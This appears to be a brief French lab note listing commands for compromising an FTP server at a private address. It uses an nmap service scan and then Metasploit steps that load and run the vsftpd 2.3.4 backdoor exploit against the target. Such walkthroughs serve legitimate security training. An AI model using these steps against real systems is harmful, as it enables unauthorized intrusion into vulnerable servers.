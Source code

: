 
## Les commandes : 

Avec nmap : 

- nmap -sV 192.168.1.185 

Avec metasploite :

- msfconsole
- search ftp scanner
- use auxiliary/scanner/ftp/ftp_version
- exploit
- show options
- search exploit ftp
- use exploit/unix/ftp/vsftpd_234_backdoor
- info exploit/unix/ftp/vsftpd_234_backdoor
- show options
- set RHOSTS 192.168.1.185
- exploit




